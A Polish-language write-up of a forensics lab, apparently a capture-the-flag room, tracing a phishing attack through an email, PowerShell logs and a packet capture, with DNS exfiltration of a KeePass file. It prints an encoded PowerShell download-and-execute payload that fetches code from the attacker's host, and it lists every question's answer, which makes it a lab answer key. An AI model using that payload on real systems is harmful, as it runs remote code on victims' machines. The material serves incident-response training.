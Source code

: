 # BOXTITLE: Boogeyman 1
> **TASK1**
> W boxie tym naszym zadaniem jest przeanalizowanie TTPs'a wykonanego na maszynie.
> **Całe zadanie zostało podzielone na 3 etapy: **
> Etap1 - Analiza maila phishingowego
> Etap2 - Analiza logów powershella
> Etap3 - Analiza logów pakietów internetowych

---
## Task1
**Q:** Let's hunt that boogeyman!
**A:** No answer needed

---



TASK2
Q: What is the email address used to send the phishing email?

W: Przechodzimy do folderu z artefaktami, znajdujemy plik dump.eml który otwieramy w aplikacji thunderbird mail. Informacje o nadawcy maila możemy uzyskać bez głębszego analizowania maila, wartość dla pola From:.

A: agriffin@bpakcaging.xyz



Q: What is the email address of the victim?

W: Informacje o odbiorcy maila możemy zauważyć bez glębszego analizowania maila, wartość dla pola To:.

A: julianne.westcott@hotmail.com



Q: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

w: Przechodzimy do More>Show Source, wyszukujemy pole DKIM-Signature, nazwa serwisu znajduje sie w polu p=.

A: elasticemail


Q: What is the name of the file inside the encrypted attachment?

W: Pobieramy załącznik i rozpakowywujemy go na spreparowanym sandboxie przy użyciu hasła zawartego w mailu.

A: Invoice_20230103.lnk


Q: What is the password of the encrypted attachment?

W: Hasło znajdujemy bezpośrednio w mailu.

A: Invoice2023!



Q: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

W: Uruchamiamy cmd, przechodzimy na Desktop, wykonujemy komende lnkparse nazwa_pliku. Informacja o komendzie możemy dostrzec w polu Command line arguments po fladze -enc.

A: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





TASK3

Q: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

W: Uruchamiamy cmd w folderze zawierajacym artefakt jsona, wykonujemy komende:
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
W polu ScriptBlockText $s= możemy zauważyć pierwsza domene ktora posłużyła do ataku, następną domene możemy odczytać poniżej.

A: cdn.bpakcaging.xyz,files.bpakcaging.xyz



Q: What is the name of the enumeration tool downloaded by the attacker?

W: Nazwe pobranego narzędzia możemy dostrzec po uruchomieniu tej samej komendy, wyszukujemy w treści wartość .exe

A: seatbelt



Q: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

W: W tym samym miejscu możemy odszukac wartosc zależne od sq3.exe, w tym sqlite.

A: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite



Q: What is the software that uses the file in Q3?

W: W tym samym miejscu możemy zauważyć wiele wspomnień dla MicrosoftStickyNotes, również w tym gdzie plik wykonywalny został zapisany.

A: Microsoft Sticky Notes



Q: What is the name of the exfiltrated file?

W: W tym samym miejscu, szukamy gdzie dane mogłybyć zapisane, jest to jeden z końcowych etapów ataków więc informacji o tym szukamy na końcu logów.

A: protected_data.kdbx



Q: What type of file uses the .kdbx file extension?

W: Informacje o tym możemy znaleść w zewnętrznych źródłach.

A: keepass



Q: What is the encoding used during the exfiltration attempt of the sensitive file?

W: Informacje o tym możemy znaleść w miejscu gdzie dane są wysyłane, np w tym samym ciagu co metoda POST, odnajdujemy informacje o tym na poczatku, w polu ScriptBlockText $split = 

A: hex



Q: What is the tool used for exfiltration?

W: W tym samym miejscu co kodowanie możemy znaleść informacje o narzędziach użytych do wysłania danych.

A: nslookup



TASK4

Q: What software is used by the attacker to host its presumed file/payload server?

W: Uruchamiamy capture.pcapng przy użyciu Wiresharka, wiemy nazwe pliku oraz to ze zawartosc zostala przeslana poprzez protokół http. Filtrujemy ruch poprzez filtr:
http contains "files.bpakcaging.xyz", dostrzegamy 5 pakietów. Przechodzimy na początek, prawy na pakiet, Follow > TCP Stream. Podążanie za potokiem pakietu z początku ataku pozwala na dokładną analizę komunikacji podczas ataku. W wartosc przesyłanych przez serwer w polu Server: możemy dostrzec oprogramowanie serwera

A: python



Q: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez POST'a

A: POST



Q: What is the protocol used during the exfiltration activity?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez nslookup czyli protokół dns'a

A: dns



Q: What is the password of the exfiltrated file?

W: W poprzednich zadaniach mogliśmy dostrzec plik sq3.exe który posłużył do zebrania danych z urządzenia.
Otwieramy Wiresharka oraz nasz plik pcapng, wyszukujemy pakietów które zawierają ten plik czyli filtr:
http contains "sq3.exe". Dostrzegamy 4 pakiety. Śledzimy Potok TCP pierwszego, możemy zauważyć, że numerem tego potoku jest 749, sprawdzamy co stało się następnie czyli dla potoku o numerze 750.
Dostrzegamy zakodowany ciąg liczbowy. Wprowadzamy ten ciąg do CyberChefa z wyszukiwaniem jakim algorytmem został zakodowany czyli operacja "Magic". Otrzymujemy entropie 5.33 dla kodowania From_Decimal('Space',false). Stosujemy tą operację zamiast Magic, uzyskujemy tym samym jawne dane, w tym hasło które posłużyło do zakodowania bazy danych.

A: %p9^3!lL^Mz47E2GaT^y



Q: What is the credit card number stored inside the exfiltrated file?

W: W celu uzyskania informacji o karcie, musimy odczytać tą zawartość z bazy danych.
Możemy zastosować następującą komende w cmd:
tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'
która odczyta plik pcap, nałoży filtr dns a następnie odpowiednio podzieli dane tabel. Tak uzyskany ciąg tekstowy musimy odkodować z hexowego np w cyberchefie. Zapisując wyniki z cyberchefa w formie nazwapliku.kdbx pozwala na uzyskanie dostepu do bazy danych poprzez program KeePassX wraz z podaniem hasła które uzyskaliśmy w poprzednim pytaniu.


A: 4024007128269551
